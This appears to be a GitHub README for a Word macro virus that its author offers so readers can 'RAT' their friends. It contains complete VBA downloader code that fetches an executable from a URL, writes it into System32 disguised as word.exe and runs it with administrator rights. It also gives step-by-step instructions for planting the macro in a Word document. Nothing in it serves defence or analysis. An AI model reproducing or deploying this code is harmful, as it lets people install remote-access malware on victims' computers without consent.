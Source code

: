 # Macro Virus

This is a simple Macro Virus I wrote so that you can RAT your friends with a word document. You can view more info below on how to use it and what all the code is doing.

## Code Explanation

Below you can view the full code with commented explanations. Basically all it does is download a file and run it as admin.

```vb
Sub hehe()
   Dim url As String
   Dim filePath As String

   ' Made By Payson - github.com/paysonism '
   
   ' The URL to the virus exe
   url = ""
   
   ' Where to download the file
   filePath = "C:\Windows\System32\word.exe"
   
   Dim http As Object
   Set http = CreateObject("MSXML2.XMLHTTP")
   
   ' Open an HTTP connection to the specified URL
   http.Open "GET", url, False
   
   ' Send the HTTP request
   http.send
   
   Dim stream As Object
   Set stream = CreateObject("ADODB.Stream")
   
   ' Open the stream object
   stream.Open
   
   ' Set the type of the stream to binary
   stream.Type = 1
   
   ' Write the response body from the HTTP request to the stream
   stream.Write http.responseBody
   
   ' Save the contents of the stream to the specified file path
   stream.SaveToFile filePath, 2
   
   ' Close the stream object
   stream.Close
   
   Dim shell As Object
   Set shell = CreateObject("Shell.Application")
   
   ' Run the virus as admin
   shell.ShellExecute filePath, "", "", "runas", 1
   
   ' Cleanup and memory release
   Set http = Nothing
   Set stream = Nothing
   Set shell = Nothing
End Sub
```

## How to use

To use it, simply open a new (or existing) word document. This will differ depending on what version of word you are using so look it up for your specific word version.
These instructions are for **Word 2010**. After opening the document, go to the view tab and then choose view macros. ![image](https://github.com/paysonism/macro-virus/assets/79509967/47e94d6f-da81-49e0-809b-b8b57ba50796)
After you have chosen view macros, enter a name and click create on the new page. ![image](https://github.com/paysonism/macro-virus/assets/79509967/c8d52980-1978-478d-82be-f9ea749f71b7)
Now, there should be a page that opens up with some code. Simply paste the macro.vba code inside of the Sub into your macro and your good to go! ![image](https://github.com/paysonism/macro-virus/assets/79509967/45b17980-6c28-46ff-94f9-8915663e79de)

# Credits

Made By [Payson](https://github.com/paysonism)

